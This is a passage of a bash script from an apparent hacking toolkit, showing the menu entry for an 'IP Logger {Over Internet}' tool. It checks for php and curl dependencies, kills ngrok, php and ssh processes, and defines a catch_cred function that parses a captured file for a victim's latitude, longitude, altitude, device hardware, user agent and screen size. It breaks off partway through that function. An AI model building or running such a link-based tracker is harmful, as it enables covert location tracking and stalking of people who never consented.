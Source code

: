 elif [[ $select == 13 ]]; then

# path= "info"

  clear
  function logger() {
    banner
    echo -e "${m}   IP Logger {Over Internet}${n}"
  }
  logger

  menu() {
  trap 'echo -e "\n";stop;exit 1' 2


  dependencies() {

  command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }



  command -v curl > /dev/null 2>&1 || { echo >&2 "I require curl but it's not installed. Install it. Aborting."; exit 1; }

  }


  stop() {

  checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
  checkphp=$(ps aux | grep -o "php" | head -n1)
  checkssh=$(ps aux | grep -o "ssh" | head -n1)
  if [[ $checkngrok == *'ngrok'* ]]; then
  pkill -f -2 ngrok > /dev/null 2>&1
  killall -2 ngrok > /dev/null 2>&1
  fi
  if [[ $checkphp == *'php'* ]]; then
  pkill -f -2 php > /dev/null 2>&1
  killall -2 php > /dev/null 2>&1
  fi
  if [[ $checkssh == *'ssh'* ]]; then
  pkill -f -2 ssh > /dev/null 2>&1
  killall ssh > /dev/null 2>&1
  fi
  if [[ -e sendlink ]]; then
  rm -rf sendlink
  fi

  }

  catch_cred() {

  longitude=$(grep -o 'Longitude:.*' info/geolocate.txt | cut -d " " -f2 | tr -d ' ')
  IFS=$'\n'
  latitude=$(grep -o 'Latitude:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  altitude=$(grep -o 'Altitude:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  accuracy=$(grep -o 'Accuracy:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  hardware=$(grep -o 'Cores:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  speed=$(grep -o 'Speed:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  platform=$(grep -o 'Platform:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  heading=$(grep -o 'Heading:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  memory=$(grep -o 'Memory:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  useragent=$(grep -o 'User-Agent:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  height=$(grep -o 'Screen Height:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  width=$(grep -o 'Screen Width:.*' info/geolocate.txt | cut -d ":" -f2 | tr -d ' ')
  # echo -e "${lh} Geolocation:"
  echo -e "${lh} Latitude:${n}" $latitude